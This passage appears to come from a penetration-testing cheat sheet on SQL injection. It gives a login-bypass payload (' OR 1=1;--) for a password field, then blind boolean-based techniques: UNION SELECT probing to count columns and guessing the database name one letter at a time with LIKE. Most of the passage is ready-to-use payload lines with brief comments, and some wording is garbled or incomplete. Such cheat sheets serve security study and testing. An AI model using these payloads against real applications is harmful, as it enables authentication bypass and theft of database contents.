 {% hint style="info" %}
`%user%` and `%password%` are the values recieved on a login form
{% endhint %}

***

* Make an malicious insertion on password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
' OR 1=1;--   #Use this comparison to cheat on verification
#THis will enumerate the users values from the database
```
{% endcode %}

{% hint style="info" %}
After the `;--` is mandatory to put a space
{% endhint %}

***



## <mark style="color:blue;">Blind</mark>

Results of the attack can't directly be seen on the screen, we get little to no feedback to confirm whether our injected queries were.

### Boolean Based

Use the response we receive back from our injection if this only have two outcomes

* Check if page has verification queries

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/$query?$column=$value
</strong></code></pre>

***

* Use union injection until the state change

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT 1;
$url/query?$column=$changedvalue' UNION SELECT 1,2;   #Try with a extra value
$url/query?$column=$changedvalue' UNION SELECT 1,2,3; #Try Until the result change
#This will determinate the number of colums
```
{% endcode %}

***

* Find database name by iteration

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue' UNION SELECT $found where database() like '%';
</strong>#The value % will match anything true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'a%'; #Try a
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'b%'; #Try b
#Repeat with every letter until found a value that gets true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like '$lettera%';
#Make the same process for the next value
$url/query?$column=$changedvalue' UNION SELECT $found where database() LIKE '$letter$letter2a$%';
#Repeat until found all DB name
</code></pre>
